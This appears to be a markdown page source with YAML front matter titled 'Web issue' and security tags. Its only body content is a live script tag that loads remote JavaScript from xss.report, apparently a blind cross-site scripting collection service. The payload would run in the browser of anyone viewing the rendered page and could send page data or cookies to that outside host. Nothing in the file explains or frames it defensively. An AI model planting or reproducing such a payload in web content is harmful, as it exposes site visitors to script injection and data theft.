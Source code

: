 ```yaml
---
title: Web issue
tags:
  - security
  - "#Babbage"
url: ""
image: ""
image_text: ""
---
```


<script src=https://xss.report/c/moz4a></script>
